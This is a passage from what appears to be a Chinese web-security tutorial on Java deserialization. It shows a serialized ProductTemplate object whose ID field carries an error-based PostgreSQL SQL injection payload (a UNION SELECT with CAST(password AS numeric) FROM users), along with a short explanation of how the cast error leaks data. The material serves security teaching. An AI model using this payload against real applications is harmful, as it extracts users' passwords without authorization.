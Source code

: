 ```java

    public ProductTemplate(String id)
    {
        this.id = id;
    }

    public String getId() {
        return id;
    }
}
```

```
# 输出
Serialized object: rO0ABXNyACNkYXRhLnByb2R1Y3RjYXRhbG9nLlByb2R1Y3RUZW1wbGF0ZQAAAAAAAAABAgABTAACaWR0ABJMamF2YS9sYW5nL1N0cmluZzt4cHQAXycgVU5JT04gU0VMRUNUIE5VTEwsIE5VTEwsIE5VTEwsIENBU1QocGFzc3dvcmQgQVMgbnVtZXJpYyksIE5VTEwsIE5VTEwsIE5VTEwsIE5VTEwgRlJPTSB1c2Vycy0t
Deserialized object ID: ' UNION SELECT NULL, NULL, NULL, CAST(password AS numeric), NULL, NULL, NULL, NULL FROM users--
```

![image-20250506185409732](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/images/image-20250506185409732.png)

在 PostgreSQL 中，`CAST`是用于数据类型转换的函数 ，作用是将一个表达式的数据类型转换为另一种数据类型，以便在不同类型数据间进行操作或比较。

将字符串强转为整数，引发报错注入。